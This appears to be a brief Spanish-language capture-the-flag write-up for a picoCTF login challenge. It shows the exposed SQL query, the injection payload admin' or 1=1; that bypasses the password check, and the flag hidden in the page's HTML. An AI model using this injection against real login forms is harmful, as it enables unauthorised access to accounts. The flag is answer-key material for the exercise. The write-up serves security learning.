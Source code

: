 #notas_hacking #web
# Reto
## Descripción
Can you login to this website?Try to login [here](http://saturn.picoctf.net:56804/).
## Solución

entrando con el input debug con valor 1  a `/login.php` vemos como se hace la consulta
```sqlite
username: sergio
password: sergio
SQL query: SELECT * FROM users WHERE name='sergio' AND password='sergio'
```
en la pagina logeado con `admin' or 1=1;` para omitir la password
```txt
username: admin' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='admin' or 1=1;' AND password='admin'

# Logged in! But can you see the flag, it is in plainsight.
```
pero en el html
```html
<pre>username: admin&#039; or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; or 1=1;&#039; AND password=&#039;admin&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```
## Notas

## Referencias
